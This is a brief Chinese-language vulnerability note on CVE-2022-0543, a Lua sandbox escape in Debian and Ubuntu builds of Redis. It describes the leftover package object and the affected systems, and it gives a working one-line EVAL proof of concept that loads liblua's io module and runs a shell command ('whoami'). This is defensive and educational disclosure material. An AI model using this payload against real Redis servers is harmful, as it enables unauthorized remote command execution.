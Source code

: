 # Redis Lua 沙箱绕过 远程命令执行 CVE-2022-0543

## 漏洞描述

Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。

Debian以及Ubuntu发行版的源在打包Redis时，在Lua沙箱中遗留了一个对象package，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

## 漏洞影响

```
只限于Debian和Debian派生的Linux发行版（如Ubuntu）上的Redis服务
```

## 漏洞复现

远程连接Redis, 执行POC

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("whoami", "r"); local res = f:read("*a"); f:close(); return res' 0
```

![image-20220524131958982](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241320211.png)